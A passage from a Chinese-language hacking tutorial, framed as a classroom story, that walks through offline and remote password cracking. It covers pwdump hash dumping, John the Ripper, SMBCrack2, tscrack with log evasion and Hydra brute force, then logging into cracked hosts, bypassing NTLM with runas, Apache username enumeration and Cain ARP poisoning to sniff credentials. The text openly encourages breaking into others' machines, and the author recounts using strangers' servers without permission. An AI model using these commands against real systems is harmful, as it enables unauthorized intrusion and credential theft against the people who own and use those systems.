我们在介绍LC5和Cain的时候，都提到了这两个工具除了可以直接破解本地的密码外，还可以通过密码文件来破解密码。换句话说，也就是如果我们能够获取别人电脑中的密码散列的话，就可以通过这个密码散列在我们自己的电脑上来破解对方的密码了。那么，我们是否能够获取远程电脑的密码散列呢？最简单的一种方法就是使用 `pwdump` 这个工具。目前 `pwdump` 有许多不同的版本，我们以 `pwdump6-1.5.0` 以及 `pwdumpx` 为例，来简单介绍一下如何获取远程电脑中的密码散列。

我们打开CMD命令提示符，来到 `pwdump6-1.5.0` 的 `pwdumprelease` 目录下，直接输入 `pwdump` 就会看到详细的使用格式了，如图4.30。


比如我们已经获知 `192.168.0.1` 这台电脑中的用户账号为 `sagi`，其密码为 `135790`，那么我们运行 `pwdump -u sagi -p 135790 192.168.0.1`，就会看到对方电脑中的用户账号及密码散列被显示出来了，如图4.31。

如果我们想将对方的密码散列保存在某一个文件中的话，就可以使用 `pwdump -o pass.txt -u sagi -p 135790 192.168.0.1`，对方的密码散列就被保存在 `pass.txt` 中了，如图4.32。

我们再来看一下 `pwdumpx` 的使用，在 `pwdumpx` 的目录下直接运行 `pwdumpx`，就会显示出详细的使用格式了，如图4.33。


图 4.31


图 4.32


图 4.33

比如，root和root123分别是192.168.0.123这台电脑中的用户账号和密码，那么我们直接执行 **pwdumpx 192.168.0.123 root root123**，如图4.34，对方的密码散列就会被记录在 `192.168.0.123-pwhashes.txt` 文件中了。我们使用记事本打开这个文件看看，对方电脑的用户账号和密码散列一览无遗，如图4.35。


图 4.34


图 4.35

如果我们想获取本机电脑上所有用户的密码散列的话，只需要将IP地址换为本机的IP地址就可以了。那么，获取到的这些密码散列该如何使用呢？运行LC5，新建一个会话，选择“导入”，然后选中“从PWDDUMP文件”，接着通过右边的“浏览”按钮选中我们刚才获取到的密码散列文件，如图4.36。确定后，我们就会看到，对方的用户账号及密码散列等信息已经出现在LC5的主窗口中了，如图4.37。接下来，就可以像破解本地密码一样来破解对方的密码喽！


图 4.36


图 4.37

再来看一下在Cain中的使用，运行Cain后，选择“破解器”，然后选择“LM & NTLM密文”，接着点击上方图标栏中的“+”号，在弹出的“添加NT密文”窗口中选择“从文本处导入密文”，接着通过最右边带有三个点的按钮选择我们刚才获取到的密码散列文件，如图4.38。确定后点击“下一步”，同样，对方电脑中的用户账号及密码散列信息就会出现在Cain中了，剩下的和破解本地密码一样操作就行了，如图4.39。

学会了pwdump的使用，假如以后我们再扫描到远程电脑的弱口令的话，就可以尝试使用这两个小工具来获取对方的密码散列，然后在本地破解对方系统中所有账号的密码了。不过，从上边两个小工具的使用中我们也可以看出，必须要知道对方系统中的某个账号和密码才行，可以说这两个工具依赖的也都是IPC$连接。鉴于WinXP系统在IPC$方面特殊的安全特性，因此即使我们拥有WinXP系统的弱口令，也可能无法远程获取其密码散列。


图 4.38


图 4.39

> “关于Windows下的本地密码破解，现在大家都已经学会了吧，接下来，我们再介绍一下如何在本地破解UNIX/Linux的密码。”

#### 4.1.5 UNIX/Linux 密码破解工具

### 4.1.5.1 John1.7

提起John the Ripper的大名，恐怕黑客爱好者中很少有人不知道的。John是一个专门用于破解口令的工具，主要用于破解UNIX/Linux系统的shadow密码文件。早期的John主要是在UNIX/Linux系统下运行的，不过后来也推出了相应的Windows版本。

我们在CMD命令提示符下进入 `john-1.7` 的 `run` 目录，直接运行 `john-mmx`，就会看到john的详细使用格式了，如图4.40。


图 4.40

john最常使用的命令格式主要有三种，第一种是 **john-mmx -single shadow** 命令格式，也就是使用单一模式来破解口令，后边的shadow为UNIX/Linux系统中的密码文件，如图4.41。这种破解方式速度最快，但破解效率也最低。


图 4.41

第二种是 **john-mmx -wordlist=password.txt shadow** 命令格式，也就是使用字典文件方式来破解口令，`password.txt` 为我们的密码字典文件，而shadow为要破解的密码文件，如图4.42。这种破解方式的效率就完全由我们使用的字典文件来决定了，如果字典文件中没有包含真正密码的话，就会破解不出来。


图 4.42

第三种是 **john-mmx -incremental shadow** 命令格式，也就是使用增量模式（分段模式），我们可以简单地将其理解为暴力破解方式。这种方式的破解成功率很高，但破解的时间却非常长。如果成功破解出口令的话，就会直接在屏幕上显示出口令及相应的用户账号，比如图4.43中就成功破解出了用户账号 `zyqq` 的口令为 `shmily`。


图 4.43

当破解完成后，我们也可以使用 **john-mmx -show shadow** 来查看shadow文件中被破解出来的口令信息，如图4.44。


图 4.44

### 4.1.5.2 乱刃 BladeSE1.25

介绍完了john的使用方法后，我们再来看另一款不错的口令破解工具——乱刃BladeSE1.25，它是国内黑客高手小榕专门为破解UNIX/Linux系统的口令而编写的。

当我们在电脑里第一次双击 `BladeSE.exe` 运行乱刃时，程序会弹出一个测试用户调查表，要求我们填写一些信息，如图4.45。这有些麻烦，不过，我们可以利用注册表来屏蔽这个菜单：点击“开始”→“运行”，在“运行”栏中输入 `regedit` 来启动注册表。打开注册表后，我们展开 `HKEY_LOCAL_MACHINE` 下的 `SOFTWARE`，然后在 `SOFTWARE` 上点击鼠标右键选择“新键”一项，新建一名为“Banyet”的项，然后再在“Banyet”项下新建一名为“Blade12SSE”的子项就可以，如图4.46。


图 4.45


图 4.46


图 4.47

图 4.48

现在，我们重新双击运行乱刃，那个测试信息就不会出现了，乱刃的界面出来了，界面挺酷的，如图4.47。点击“确定”后，会出现一个提示框，提示程序将测试我们系统的破解速度。点击确定后，我们就会看到测试出来的自己电脑的破解速度是多少了，如图4.48。

好了，确定后，乱刃的主界面就会出现了，如图4.49。点击“文件”→“打开密码文件”，然后选中UNIX/Linux系统的密码文件，选择好后，乱刃就会自动显示出密码文件中所有的用户账号，如图4.50。


从“用户名”一列中选中想要破解的用户账号，点击“添加”，想破解的用户账号就会显示在右方的“破解以下账号”框中了，如图4.51。要破解的用户账号选择完毕后，点击确定，用户账号就会出现在乱刃的主界面中了，如图4.52。


接下来，我们可以通过“文件”下的“打开字典文件”来选择我们想使用的密码字典，然后点击“文件”下的“开始解码”，会弹出“系统设置”对话框，使用默认的设置就可以了，如图4.53。接着又会弹出一个“解码时间预计”的对话框，点击“开始解码”后，乱刃就会自动进行破解了。如果破解出来的话，就会弹出“已破解账号”的对话框，如图4.54。


为了破解口令的方便，在乱刃中也已经集成了黑客字典III，我们可以通过“工具”下的“黑客字典III”来打开它，如图4.55。这个黑客字典III和我们在流光中介绍的黑客字典III流光版其实是一样的，关于如何使用它来制作自己的字典文件，大家翻开第三堂课的笔记，看看流光的使用介绍重新温习一下就可以了。

不过，遗憾的是乱刃采用的是标准UNIX的CRYPT(3)算法，对于采用一些别的算法的UNIX/Linux密码文件，则有可能会提示不是有效的UNIX密码文件。因此，倘若乱刃无法识别密码文件的话，那同学们还是动手，在CMD下老老实实地使用John吧！


图4.55

> “好了，关于本地密码的破解，我们就介绍到这儿，大家有什么问题要提问吗？”

“sagi老师，那我们在什么情况下进行本地密码破解呢？总不至于，没事儿自己破解自己的密码玩儿吧！”阿呆马上举手问道。

“关于本地密码破解的应用主要有两个方面：一个是当黑客利用系统漏洞或是别的漏洞非法入侵电脑后，他就可以获取该台电脑上的密码散列或是密码文件，然后下载到自己的电脑上进行破解，或者是直接在对方电脑上安装使用那些密码破解工具来破解对方的系统密码。而另一种情况，就是当我们使用的电脑是公用的或是有多人使用的，这种情况下，我们就可以通过本地密码破解来得到别人的密码。”

“好了，讲了这么多，又热又累的，大家先休息一下，然后我们介绍远程密码的破解。”

刚说完，就听阿呆喊道：“sagi老师，别忘记了给我们买冰淇淋？”

这个臭阿呆居然还没有忘记这事儿！

### 4.2 远程密码破解

正当大家在教室里噼里啪啦地敲着键盘，学习着如何使用LC5和Cain破解系统密码以及如何获取远程电脑密码散列的时候，只见休息够了的sagi老师拿着四个冰淇淋慢悠悠地走进了教室。

> 讲台下汗流浃背的小菜们一看到sagi老师手中的冰淇淋，顿时两眼放光，“轰”的一声丢下手里的鼠标就抢了上去：“给我一个。”“我要这个香芋味的。”“草莓味的给我。”“谁都别抢我的牛奶味的。”……

待大家都美滋滋地吃完了冰淇淋，sagi老师才开始继续讲课。

“许多网络管理员为了远程维护管理服务器的方便，都会开放一些远程登录服务，以供自己在任意时间、任意地点都可以轻松方便地远程登录到服务器上进行维护管理工作。比如网络上最常见的FTP服务、Telnet服务、SSH服务、MsSQL服务、MySQL服务以及Windows终端服务（默认使用的是3389端口）等等。这些远程登录服务在给系统管理员带来便捷的同时，也给系统带来了安全隐患，因为一旦黑客们利用某些方法猜测出了允许登录的用户账号和密码的话，就可以大摇大摆地非法进入系统。事实上，我们在本章开头提到的英国黑客加里·米克金农就曾经利用这种方法入侵了美国军方的计算机系统。”

> “你们敬爱的sagi老师，刚开始也是在网吧里上网才接触的安全技术，那时候学习着使用流光，结果幸运地扫描到美国南加利福尼亚州的两台SunOS主机的弱口令，在那之后的一段日子里，我一到网吧就会登录到那两台主机上，然后照着从书店里买的关于UNIX的图书……”

> “以及从网络上摘抄的学习资料开始学习UNIX的一些基础命令的操作，接着又开始尝试学习如何在SunOS下编译一些攻击程序来尝试攻击日本的UNIX/Linux系统。我相信绝大多数的黑客爱好者都是先从Windows的安全技术学起，后来才开始学习UNIX/Linux的安全技术的，不过，我却恰恰相反。”

> “其实我在网吧上网那会儿，早就有了自己的电脑，只可惜硬盘只有2.1G，还分了两个区，安装的是Win98系统。直到那年的年底，我攒足了钱，才换了一块20G的硬盘，重新分区安装了Win2000以及RedHat Linux8.0系统，才开始学习Windows下的安全技术的。所以，与大家截然不同的是，我是先学习的UNIX/Linux下的安全技术，后来才学习的Windows下的安全技术。好了，好了，有些跑题了，就此打住，下边来学习几款远程口令破解工具的使用。”

#### 4.2.1 小巧实用的 Windows 口令猜解工具 SMBCrack2

SMBCrack2是一个非常优秀的用于远程猜解Windows系统口令的小工具，我们在CMD命令提示符下运行 `smbcrack2.exe`，就会看到它的详细使用格式了，如图4.56。


图 4.56

```bash
smbcrack2 -i 192.168.0.123 -p engname.dic -u user.dic -N -P 1
```

我们通常使用上述命令格式。

- `-i 192.168.0.123` 表示我们要破解的远程电脑的IP地址为 `192.168.0.123`。
- `-p engname.dic` 表示使用的密码字典文件为 `engname.dic`（里边记录的是一些常用的用户密码）。
- `-u user.dic` 表示使用的用户名字典文件为 `user.dic`（里边记录的是一些常用的用户账号）。
- `-P 1` 表示使用Win2000 Native模式，也就是使用445端口；而 `-P 0` 表示使用NetBIOS模式，也就是使用139端口，这也是默认使用的模式。
- `-N` 表示使用NTLM SMB验证方式，使用这种方式可跳过被系统禁用的用户，可以提高破解的速度。默认使用的是SMB验证方式。

如果成功猜解出了用户名和密码的话，smbcrack2会在屏幕上以红色显示出来，如图4.57。

#### 4.2.2 Windows 终端 3389 服务口令破解工具

tsrack-beta9是一款专门用于检测Windows终端服务口令账号的工具，我们可以使用它来实现Windows终端服务的远程口令猜解。

我们在 tscrack-beta9 的目录下直接运行 tscrack，就会看到它的详细使用格式了，如图 4.58。


图 4.57


图 4.58

在远程破解时通常使用 `tscrack -t -N -B -m 7 -x 7 192.168.0.99` 这种命令格式就行了。“-t” 表示同时使用两个连接；“-N” 表示尽可能在破解的时候不被对方的日志所记录；“-B” 则表示使用暴力破解模式；“-m” 表示最小的口令位数；“-x” 表示最大的口令位数。如果我们不使用 `-l` 参数指定要破解的账号的话，则默认破解的是 administrator 账号。

当程序运行后，我们就会在屏幕上同时看到有两个 Windows 终端服务的登录窗口，并且在自动地进行口令的验证了，如图 4.59。

倘若因为网络或是别的原因而致使登录界面不再继续检测了，我们可以点击一下“确定”，tscrack 就会对账号继续进行检测了。


图 4.59

#### 4.2.3 最强大的远程口令破解工具 Hydra 5.4

Hydra 是 THC 安全小组编写的一款非常著名的远程口令破解工具，也被称为速度最快的远程口令破解工具，其最新的版本为 5.4。Hydra 主要分为 Windows 版本以及 UNIX/Linux 版本，我们主要来看一下 Windows 版本的使用。

在 hydra-5.4-win 的目录下直接运行 hydra，就可以看到它详细的使用格式了。我们上边介绍的 SMBCrack2 以及 tscrack-beta9 都是针对单一的服务进行远程口令破解，而 hydra 不同，它能够远程破解很多服务，可以说“多功能”就是它最大的特点。

我们仔细看 service 参数的说明，就会看到破解的项目包括了 telnet、ftp、smb、smbnt、ssh2、mssql、mysql、oracle-listener、smtp、cisco、vnc、pcanywhere、rlogin、rsh、snmp 等三十多项服务，如图 4.60。


图 4.60

当然了，这么多的服务我们也不是全部都要破解才行，对于黑客来讲，最有用的就是 telnet、ssh、ftp 这几项服务了。

来看一下具体的破解格式：

```bash
hydra -L user.dic -P numpass.dic -V 192.168.0.22 telnet
```

“-L user.dic” 表示使用用户名字段文件 user.dic；“-P numpass.dic” 表示使用密码字段文件 numpass.dic；“-V” 表示在屏幕上显示出每一个进行猜解的账号密码信息；192.168.0.22 表示我们要破解的主机的 IP 地址为 192.168.0.22；telnet 表示我们破解的服务为 telnet。

当命令执行后，我们就会在屏幕上看到一行行猜测的用户账号和密码不停地闪过，就好似电影里的黑客在远程破解密码一样，颇有那种味道，如图 4.61。


图 4.61


图 4.62

如果用户账号和密码被成功破解出来的话，就会在屏幕上以“login:用户名  password:密码”的形式显示出来，比如图 4.62 中猜测出来的用户账号是 admin，以及相应的密码是 2202553。不过，猜测出来后，hydra 仍然会继续下一个用户名和密码的猜测。

```bash
hydra -L user.dic -P numpass.dic -o result 192.168.0.22 telnet
```

我们还可以使用这种破解格式，“-o result”表示将破解的结果保存在 result 这个文件中，这样我们就不用担心会错过破解出来的用户和密码了。对于破解出来的用户名和密码同样也会显示在屏幕上，如图 4.63。


图 4.63

当破解全部结束后，我们使用记事本打开 result 这个文件，就会看到破解出来的密码清楚地记录在里边了，如图 4.64。


图 4.64

#### 4.2.4 如何远程登录进入系统

对于 telnet、ssh、ftp 等服务，我们可以使用破解出来的用户账号和密码直接登录进去。打开 CMD 命令提示符，输入 `ftp 192.168.0.22`，然后在 User 后边输入用户名，在 Password 后边输入密码（注意：为了保证安全，输入的密码是不会显示在屏幕上的），如果正确的话，就会提示我们“Login successful.”，成功登录进入 ftp 了，如图 4.65。


图 4.65

成功登录进入后，可以使用 `dir` 或 `ls` 命令列出当前目录下的文件，使用 `pwd` 命令显示我们当前所在的目录，使用 `cd` 命令进入子目录，或是使用 `cd ..` 命令返回到上一层目录，当然更常用的则是使用 `get 文件名` 命令将对方的文件下载到我们的电脑中，或是使用 `put 文件名` 命令将我们当前目录下的文件上传到对方的电脑里。最后，当我们的操作完成后，就可以使用 `bye` 命令退出 ftp 了。

对于 telnet，我们可以在 CMD 命令提示符下输入 `telnet 192.168.0.22`，然后在“login:”后边输入破解出来的用户名，然后再在“Password:”后边输入密码（同样，输入密码的时候也是不会显示在屏幕上的），成功的话，我们就会登录进入系统了，接下来，就可以像操作自己的电脑一样来远程操作 192.168.0.22 这台电脑了，如图 4.66。


图 4.66

如果我们想退出远程登录的话，输入 `exit` 就可以了。telnet 服务在 UNIX/Linux 系统中开启得挺多的，但在 Windows 系统中开启的却很少，即使有也大多是黑客入侵系统后开启的。比如我们使用命令 `telnet 192.168.0.1` 登录一台 Windows 系统，连接成功后，系统就会提示我们说我们要将密码信息发送到 Internet 区内的一台远程电脑上，可能不安全，并询问我们是否发送，我们直接输入“y”，如图 4.67。接着，就会要求我们输入登录的用户账号和密码，如图 4.68。


图 4.67


图 4.68

正确无误的话，我们就会成功地远程登录进入 Windows 系统了，如图 4.69。


图 4.69

sagi 老师的话音刚落，就听讲台下的阿呆自言自语道：“不对呀，我怎么输入‘y’后，就自动退出来了呢？”

“这是因为 Windows 系统的 telnet 登录使用了 NTLM 身份认证方式，你登录的时候因为身份认证失败所以才拒绝你远程登录了。”sagi 老师接口道，“对于 Windows 的 NTLM 认证，我们可以使用下边的方法来解决。”

比如，我们得到 192.168.0.56 这台电脑中的用户账号是 root，密码是 root123。那么，我们先在自己的电脑里添加一个一模一样的用户名为 root、密码是 root123 的账号，然后启动 CMD 命令提示符，运行 `runas /user:root cmd.exe` 命令，也就是以用户 root 的身份运行 cmd.exe。按照提示，我们输入 root 用户的密码，成功的话，就会在屏幕上弹出一个新的 CMD 窗口来，在这个新 CMD 的标题栏上我们可以看到“作为 SAGI\root 运行”的提示，在这个 CMD 窗口下我们再使用 telnet 远程登录 192.168.0.56 这台电脑，就可以骗过对方的 NTLM 身份认证，而成功登录了，如图 4.70。事实上，我们注销系统，以 root 用户身份重新登录进入系统后，打开 CMD 命令提示符，再使用 telnet 远程登录 192.168.0.56 的话，也会骗过对方的 NTLM 认证。


图 4.70

telnet 在远程登录及传输过程中是以明文方式记录的，因此很不安全，很容易被嗅探到，因此后来管理员们就开始使用 SSH 来替代 telnet 进行远程登录了。

> ### 小知识：什么是 SSH？
> SSH，英文全称为 Secure Shell，也就是安全 shell。这是一个很流行的、强大的、基于软件的网络安全工具。使用 SSH，我们可以将所有传输的数据进行加密。当接收到数据时，SSH 会自动解密。因此，使用 SSH 远比使用 telnet 安全。

Internet 上的许多 UNIX/Linux 主机都开放了 SSH（SSH 默认使用的是 22 端口），但遗憾的是在 Windows 系统中却没有集成远程登录 SSH 的程序。不过，好在我们可以使用 PuTTY 这款小工具来实现。

双击运行 putty.exe，在“Connection type”（连接类型）中选择 SSH，则上边的“Port”（端口）栏会自动变成 22，我们在前边的“Host Name(or IP address)”，也就是主机名称或 IP 地址栏中输入对方的 IP 地址 192.168.0.22，然后点击最下边的“Open”按钮，如图 4.71。


接着，在屏幕上会弹出一个黑色的登录窗口，我们在 login as 后输入用户名，然后在 password 后输入密码，正确的话就会登录进入系统了。接着，就可以像操作自己的电脑那样来操作远程主机了，如图 4.72。如果想退出的话，直接运行 exit 命令就可以了。另外，我们在 PuTTY 的主界面中也会看到，除了可以进行 SSH 的远程登录外，还可以进行 telnet、rlogin 等的远程登录。


除了我们在上边介绍的那几款远程口令破解工具外，在网上还有许多类似的工具。另外，我们在第三堂课中介绍的流光 5 和 X-Scan 3.3 也都有远程口令破解功能。从这些工具中我们不难发现，远程口令破解非常依赖于字典文件。可以说，字典文件的好坏，直接影响到了我们远程破解的成功率。那么如何制作一个强大的字典文件来提高破解的成功率呢？记得我在介绍流光 5 的时候，已经为大家详细介绍了黑客字典 III 的使用，我们使用那个就可以制作出自己的字典文件。除此之外，在网上也有许多专用的字典文件制作工具，下边，我要介绍给大家的就是“万能钥匙字典”。

#### 4.2.5 制作自己的字典文件

我们切换到万能钥匙字典的目录下，双击运行 XKey.exe，其主界面如图 4.73 所示，直接点击“下一步”，就来到了关于电话号码的制作选项上。对于普通固定电话，我们可以选择 7 位或 8 位的号码，另外还可以对这些电话号码的开始号码进行任意定制；而对于移动电话我们可以选择 11 位号码，也可以对开始的号码进行任意的定制，如图 4.74。另外，在下方我们还可以看到当前词典的长度。


点击“下一步”后就来到了出生日期的制作选项上，我们可以选择使用日日、年月、年月日的三种格式，对于年份范围也可以任意定制，在下边我们还可以根据需要选择是否使用 4 位的年份，以及日期的十位是否补 0，如图 4.75。继续点击“下一步”，来到姓名字母的制作选项，主要包括“姓名声母”“姓或英文名”“姓+名字”“姓+名字声母”“姓+英文名字”等五种选择，我们可以根据需要进行选择，如图 4.76。


接着，就来到了英文数字的选项上，包括计算机和网络常用英文、常用数字等，另外还可以任意选择其他的数字范围，如图 4.77。

最后就来到了生成词典的选项，可以选择字母是否大写、小写或是首字大写，以及换行方式和词条宽度等等，如图 4.78。选择好后，我们点击“完成”，程序就会要求我们为生成的字典文件选择保存的路径及文件名了，如图 4.79。当文件保存完毕后，工具会提示我们是否要退出程序，如果我们想继续制作字典文件的话，可以选择否；想退出的话就直接点击是，如图 4.80。


图 4.79

图 4.80

利用专用的工具来制作字典文件就是这么简单，大家都学会了吧。刚说完，就听阿果嚷嚷道：“怎么这么慢呀，我都保存了半天了，怎么还没有保存完毕呀？”

sagi 走过去一看，好家伙，原来贪心的阿果把几乎能选的格式都选择上了，生成的字典文件的长度居然有三亿多条。sagi 连忙查看了一下保存的字典文件的大小，字典文件已经达到了 4G 且还在继续不停地增大呢！

> “阿果呀，你这样制作字典文件那还得了呀，这么大的字典文件，你让 hydra 全部跑一遍，估计你都得等到胡子白了，说不准那时候守在电脑前的都会是你的儿子或孙子了。”

> “啊？不会吧，sagi 老师，你不要吓我！”阿果大惊失色。

> “我们选择的字典数目越多，破解的成功率就越高，但同时破解的速度就越慢。也就是说，破解的成功率与破解的速度是成反比的。”

> “那么，我们要怎样选择字典，才能够尽可能地做到破解的成功率与破解速度都让我们满意呢？”好学的阿黑问道。

“这就要看人们对于用户名以及密码的设置使用习惯了。比如用户名，最经常使用的主要有以下几种情况：一是系统内置的用户账号，比如 administrator、guest、root、admin、bin、account、test、mysql、webmaster 等等；第二种则是使用英文名或是一些英文单词作为用户账号，比如 joyce、peter、mike、jerry、billy、angel 等等；对于国内用户来讲，还经常会使用姓或姓名的拼音以及姓名的首个拼音的缩写来作为自己的用户名，比如 wangxiaoming（王小明的拼音）或 wxm、ouyang（欧阳）等等。而对于用户密码，最经常使用的则主要有以下几种情况：一是密码为空或是与用户名相同，或是使用 123、12345 这类非常简单的数字，这也就是弱口令了，不过这种情况使用得不太多；第二种情况则是使用自己的出生年月日作为密码，比如 19970507、850819 等等；第三种情况则是使用电话号码或手机号码来作为密码，比如 3768691、87769340、13687751687 等等。针对以上的情况，我分别制作了一些用户名和密码的字典文件，大家直接使用就可以了。”

关于远程口令的破解，其实并不难，工具的使用也都非常简单，难的则是如何选择合适的字典文件，以使自己破解成功率既高、破解的速度又快。那么，黑客们在进行远程口令破解时，是否还有更好的技巧来提高自己的破解效率呢？

“这能有什么技巧呢？总不至于可以让我们知道对方的密码或是用户账号吧！”阿菜说道。

“密码自然是不可能知道的，否则也就没必要进行远程破解了。但是对于远程电脑中的用户账号，我们确实可以利用一些方法来得到。”

### 4.3 如何获取远程主机中的用户账号

#### 4.3.1 利用 NetBIOS 得到远程电脑的用户账号

我们运行 X-Scan 3.3，点击“扫描参数”，先在“检测范围”里填上远程主机的 IP 地址，然后在“全局设置”的“扫描模块”项目中选择“开放服务”“NT-Server 弱口令”“NetBIOS 信息”以及“漏洞检测脚本”，如图 4.81。在“插件设置”的“NETBIOS 相关设置”项目中主要选择“用户列表”“本地组列表”等，如图 4.82。至于其他的检测项目，大家就可以随意选择了。


确定后，X-Scan 就会对远程主机自动进行扫描了，检测完毕后会自动弹出扫描报告来。我们在扫描报告中找到 netbios-ssn（139/tcp）这一项，从 NetBIOS 信息里就会看到远程主机里的用户账号了，甚至还包括这些账号的类型、最后登录的时间等等，如图 4.83。


#### 4.3.2 利用 Finger 得到远程电脑的用户账号

我在第三章关于远程主机的信息刺探中，曾经介绍过 finger 命令的使用，大家请翻开第三堂课的笔记温习一下。倘若远程主机开放了 finger 服务的话，我们就可以利用 finger 命令来尝试得到对方系统内的用户账号及相关信息了。

#### 4.3.3 利用 Apache 漏洞得到远程电脑的用户账号

Apache 是 Internet 上使用最广泛的 Web 服务组件，不过，其 1.3.* 至 2.0.48 版本存在一个安全漏洞，我们可以利用这个漏洞获得对方系统内的用户账号。打开 CMD 命令提示符，切换到 apachegetuser 的目录下，运行 apacheuser.exe，其详细的命令使用格式就出来了，如图 4.84。


图 4.84

我们输入 `apacheuser -t 61.115.2.12 -u user.txt`，“-u user.txt”表示我们要使用的用户名字典文件为 user.txt，如图 4.85。命令执行后，程序会自动检测对方使用的是否为 Apache 以及是否存在漏洞，如果存在的话，就会对账号进行检测了，检测出来的账号会在右方以“yes”标示出来，如图 4.85。


图 4.85

得到了对方系统内的用户账号后，再根据这些账号制作相应的密码字典文件，我们破解的成功率及速度自然也就会事半功倍了。不过也并非远程主机都可以使用上边的方法来获取系统账号，倘若无法获取的话，则只有像前边讲的那样直接使用用户名字典文件和密码字典文件进行破解了。

好了，关于远程口令破解的知识以及一些技巧我们就介绍到这儿。事实上，对于黑客来讲，除了本地密码破解以及远程口令破解外，获取密码还有一种更有效的方式，那就是利用网络嗅探来得到密码，这可是目前黑客入侵中非常实用的一种技术哟！

### 4.4 利用网络嗅探来获取密码

> “黑客在什么情况下，才会选择使用网络嗅探的方法来获取密码呢？”阿黑问道。

> “我举个简单的例子说明一下，比如我们在某个局域网（公司内部网、网吧或是校园内部网等）中，其中一台 IP 地址为 192.168.0.22 的电脑（主机A）上有一些我们想要的文件或是想得到对方的登录密码，而另一台 IP 地址为 192.168.0.1 的电脑（主机B）拥有 A 主机的访问密码，可以随时访问 A 主机，在这种情况下我们就可以选择使用网络嗅探的方法来获取 A 主机的访问密码。”

可以实现网络数据嗅探的工具有许多，我们主要详细介绍一下如何使用 Cain 进行网络嗅探来获取密码。

当我们第一次点击 Cain 的“开始／停止嗅探”（也就是那个类似网卡的图标）或是点击最上方菜单栏的“配置”时，都会出现配置对话框。在“嗅探器”项目中我们必须选择正确的网卡才行（通常选择带有本机局域网 IP 地址的那个），然后点击“确定”，如图 4.86。网卡选择好后，以后当我们再点击“开始／停止嗅探”时就不会再出现配置对话框了。不过，仍然可以通过菜单栏的“配置”来重新进行选择。


图 4.86

返回到 Cain 的主界面，点击工具栏中的“开始／停止嗅探”按钮，然后切换到“嗅探器”功能，在中间的空白区域上点击鼠标右键，从弹出的菜单中选择“扫描 MAC 地址”，如图 4.87。接着会弹出“MAC 地址扫描”的选择框，我们选中“范围”，然后填入开始的 IP 地址及结束的 IP 地址，如图 4.88。点击“确定”后，局域网中所有的主机信息就会列出来了，如图 4.89。


图 4.87


图 4.88

图 4.89

我们在下方选中“APR”选项，然后点击上方的“添加到列表”，也就是那个蓝色的“+”号图标，就会弹出“新的 ARP Poison Routing”选项。先从左侧的框中选中 192.168.0.22，点击“确定”，然后再从右边的框中选中 192.168.0.1，如图 4.90。点击“确定”，就会返回到刚才的 APR 界面。


图 4.90

我们会看到在上方的空白栏中出现了一个状态为 Idle 的图标，那就是我们刚才选择要进行嗅探以及 ARP 欺骗的主机列表，如图 4.91。点击“开始／停止 ARP”，也就是网卡图标右边的那个类似放射性标志的图标，就会发现状态变成了 Poisoning，说明正在进行 ARP 欺骗及嗅探了。此时，如果 B 主机（192.168.0.1）访问了 A 主机（192.168.0.22）的话，我们在下方的空白栏中就会看到捕获的数据包了，如图 4.92。


图 4.91


图 4.92

我们在下方切换到“口令”栏，会看到“Telnet”项标示有一个信息，在右方的空白框中也会发现记录了一条嗅探到的 Telnet 登录信息，如图 4.93。


图 4.93

我们在记录的文件上点击右键，选择查看，嗅探到的内容就会显示出来了，清楚地记录下了登录的用户账号 admin，密码 2202553，甚至连对方执行的命令也详细地记录了下来，如图 4.94。


图 4.94

现在大家都明白了为什么我在前边说 Telnet 不安全吧！我们再来嗅探一下 Windows 的密码，在“新的 ARP Poison Routing”的左框中选择 192.168.0.1，在右框中选择 192.168.0.20。

回到 APR 界面点击“开始／停止 ARP”，当 192.168.0.20 这台电脑访问了 192.168.0.1 这台电脑的话，数据就会被捕获到，如图 4.95。


图 4.95

切换到“口令”栏，会看到“SMB”项上标示有两条信息，在右方空白框中会看到嗅探到的用户名和加密后的密码信息。我们选中嗅探到的信息点击鼠标右键，从弹出的菜单中选择“发送所有到破解器”，如图 4.96。切换到“破解器”功能选项，就会看到用户名和加密的密码已经显示在里边了。接下来，我们就可以像破解本地密码那样来对其进行破解了，如图 4.97。


图 4.96


图 4.97

讲完这些，讲台上的 Sagi 老师瞅瞅窗外的天色已经很晚了，就说道：“各位同学，今天的课我们就上到这儿，关于本地密码破解、远程口令破解以及利用网络嗅探来获取密码的方法，大家课后一定要勤加练习。都说熟能生巧，当大家把这些工具都运用熟练的时候，这些技术也就会变得非常简单了。还有，下节课就是我们的重点了，我将会把一些最常见的黑客入侵的方法教给大家，让大家也来体验一下入侵别人电脑的快感……”

> “Sagi 老师，你怎么像唐僧那样啰嗦呢，外边都快要下雨了！”阿莱焦急地说道。

> “好了，好了，这就说完了，明天早上我会测试一下看大家都把工具使用得怎么样了，记得回去一定要练习呀！”

## 第五章 从零开始学入侵

“各位同学，早上好！我们昨天已经详细介绍了关于密码破解的知识，但是要想使用口令破解来入侵远程主机却存在很大的运气成分，这主要由入侵者所使用的用户名字典文件及密码字典文件所决定。因此，特别是对于远程口令破解这种相对费时的入侵方式，目前使用得并不多。黑客们更喜欢使用一种直接的方法来入侵远程主机，这就是我们今天这堂课主要介绍的远程溢出攻击以及脚本注入攻击。今天的内容非常非常重要，可以说是本次菜鸟学堂的精华部分了，希望大家认真听讲。”

昨天在课堂上学的本地密码破解以及利用局域网嗅探的方法来获取别人的密码，已经让阿黑他们玩得太过瘾了。听到今天终于要介绍黑客入侵电脑的各种技术，不由得一个个喜形于色，连一向上课爱打瞌睡的阿呆也变得精神百倍。

“就以目前来讲，黑客们最喜欢使用的入侵方法主要有远程溢出攻击、脚本注入攻击、远程文件包含漏洞利用等几种。而其中又以针对操作系统本身的远程溢出攻击最为直接，危害性最大、使用也最为简单。正因为如此，这些远程溢出漏洞的寿命也比较短，仅仅是昙花一现，就成了网络上的一个历史。比如 2001 年的 IDA&IDQ 漏洞、printer 漏洞，2003 年 webdav 漏洞、RPC DCOM 漏洞（MS03-026），2004 年的 Lsasrv.dll 漏洞（MS04-011）、WINS 漏洞（MS04-045），2005 年的 Plug and Play 漏洞（MS05-039）等等，当时都在网络江湖上兴起了一阵腥风血雨，被这些漏洞入侵的电脑多得数不胜数。但时至今日，要想再使用这些陈年旧洞来入侵别人的电脑，已经不大可能了，但好在新的漏洞也层出不穷，下边我就来介绍一下目前比较常用的两个远程溢出漏洞的详细利用。”

### 5.1 简简单单学远程溢出攻击

#### 5.1.1 Windows Server 服务远程溢出漏洞（MS06-040）

